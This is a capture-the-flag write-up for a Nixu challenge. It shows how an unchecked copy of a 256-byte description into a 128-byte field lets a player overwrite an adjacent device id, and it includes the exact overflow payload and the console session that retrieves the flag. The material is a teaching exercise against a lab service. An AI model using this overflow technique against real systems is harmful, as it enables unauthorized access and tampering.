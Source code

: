 # Device Control Pwnel - Part 2

## Problem

https://thenixuchallenge.com/c/overflow/

You found an exposed device controller interface... 

nc overflow.thenixuchallenge.com 20191 

[device.tgz](https://thenixuchallenge.com/c/overflow/static/device.tgz)

## Solution

Add a device with a long description to overflow the char array and set the device id. Edit the device with a new description to get the 0x00 at the right place.

### Introduction

After downloading the device.tgz and extracting it we get two files: the source device.c and the executable device. Let's look at the source first. Note: the link to the challenge is called overflow...

#### device.c

The code is straight forward: in main two flags are loaded and it presents a menu. After choosing an option the corresponding function is called and the menu is returned afterwards.

Flag2 is printed in the process function if a device with an `id` equal to `master` is present. `master` is defined as `uint64_t master = 0x8100ca33c1ab7dafLL;`. Only thing left to do is add a device with the master id.

Devices are added in the `add_device` function. It accepts a name and description from the user and generates a random id. The input for the name and description is done using fgets. The variable to hold the description has a length of 256. The final destination to which it is copied only has a length of 128. The copying is done without a boundary check and overwrites the memory adjacent to the description, which is the id. Supplying a description with a string of 128 in length with the the value of the master as string appended to it will set the id of the memory.

Only left is the string representation of the master id. Using an ASCII table, and reading the master id bytes from right to left(`af 7d ab c1 33 ca 00 81`), we get the string `»}½┴3╩0ü`. The 0 is a placeholder for the 0x00 value, as it can not be appended straight away. Appending this to a 128 characters long string will set the id to `8130ca33c1ab7daf`. Almost there, we just need to change the second byte to 0x00. We use the edit function for it. This time the description is changed to a 128 characters long string with 6 characters (`»}½┴3╩`) appended.

Choosing 4) Process gives flag number 2

#### Control panel

Firing up nc and connecting to the provided address presents us with a menu, as expected from the source.

```console
Welcome to ACME corp control panel

1) List devices
2) Add device
3) Edit device
4) Process
5) Quit
```

First add a device by choosing option 2

```console
2
Add a new device
Assigned device ID 6b8b4567327b23c6
Name:
Hack
Description:
12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678»}½┴3╩0ü
```

List the current devices shows that the device ID has been changed

```console
1

Listing devices:

1:
ID: 8130ca33c1ab7daf
Name: Hack
Description: 12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678»}½┴3╩0ü
```

Now edit the already present device to fix the second byte

```console
3
Select device to edit (1):
1
New name:
Hack2
New description:
12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678»}½┴3╩
```

Verify the ID

```console
1

Listing devices:

1:
ID: 8100ca33c1ab7daf
Name: Hack2
Description: 12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678ü
```

Choose option 4 to get the flag

```console
Looking for master device id: 8100ca33c1ab7daf
Device with master id found, here's the flag:
NIXU{###_##_####_####_####_#########}
```